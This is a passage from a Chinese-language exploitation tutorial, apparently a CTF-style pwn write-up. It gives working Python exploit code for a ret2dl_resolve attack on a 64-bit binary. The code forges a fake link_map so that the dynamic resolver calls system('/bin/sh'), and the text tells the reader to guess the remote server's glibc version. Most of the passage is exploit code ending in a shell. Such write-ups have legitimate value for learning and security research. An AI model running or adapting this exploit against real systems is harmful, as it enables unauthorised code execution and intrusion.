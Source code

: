 下面就来说说利用的脚本了：

```python
from pwn_debug import *

pdbg=pwn_debug("./binary64")
pdbg.local()
p=pdbg.run("local")
libc=ELF("libc.so.6")
elf=ELF("binary64")

offset=libc.symbols['system']-libc.symbols['__libc_start_main']
got_libc_address=elf.got['__libc_start_main']
dl=pdbg.ret2dl_resolve()
fake_link_map=dl.build_link_map(fake_addr,reloc_index,offset,got_libc_address)

```
首先我们需要知道远程服务器glibc版本，没有的话也可以猜猜碰运气，然后算出我们想要执行的gadget距离`__libc_start_main`的偏移，`build_link_map`方法的参数意思也很明显了，`fake_addr`是我们要基于这个位置生成`fake_link_map`数据，`reloc_index`是我们之后执行`plt_call_gadget`对应的`reloc`

最后利用的时候，我们要将生成的`fake_link_map`数据写入`fake_addr`地址处，还将要程序link_map_got表(got+4)中的`link_map`地址写成`fake_addr`地址，最后跳去plt表的`push reloc`指令地址处执行,之前要构造好参数，最后进入`dl_runtime_resolve`函数，根据link_map解析到调用函数，getshell.

把pwn_debug里面的`fake_link_map`功能函数抠出来，可单独使用，`reloc_index`默认设置为0，脚本如下：

```python
offset = libc.sym['system'] - libc.sym['__libc_start_main']
 
def fake_link_map_gen(link_map_addr,l_addr,st_value):
    fake_Elf64_Dyn_JMPREL_addr = link_map_addr + 0x18
    fake_Elf64_Dyn_SYM_addr = link_map_addr + 8
    fake_Elf64_Dyn_STR_addr = link_map_addr
    fake_Elf64_Dyn_JMPREL = p64(0) + p64(link_map_addr+0x28)
    fake_Elf64_Dyn_SYM = p64(0) + p64(st_value-8)
    fake_Elf64_rela = p64(link_map_addr - l_addr) + p64(7) + p64(0)
 
    fake_link_map = p64(l_addr)            #0x8
    fake_link_map += fake_Elf64_Dyn_SYM    #0x10
    fake_link_map += fake_Elf64_Dyn_JMPREL #0x10
    fake_link_map += fake_Elf64_rela       #0x18
    fake_link_map += '\x00'*0x28
    fake_link_map += p64(fake_Elf64_Dyn_STR_addr) #link_map_addr + 0x68
    fake_link_map += p64(fake_Elf64_Dyn_SYM_addr) #link_map_addr + 0x70
    fake_link_map += '/bin/sh\x00'.ljust(0x80,'\x00')
    fake_link_map += p64(fake_Elf64_Dyn_JMPREL_addr)
    return fake_link_map

fake_link_map = fake_link_map_gen(link_map_addr,offset,elf.got['__libc_start_main'])

```


## Related Links
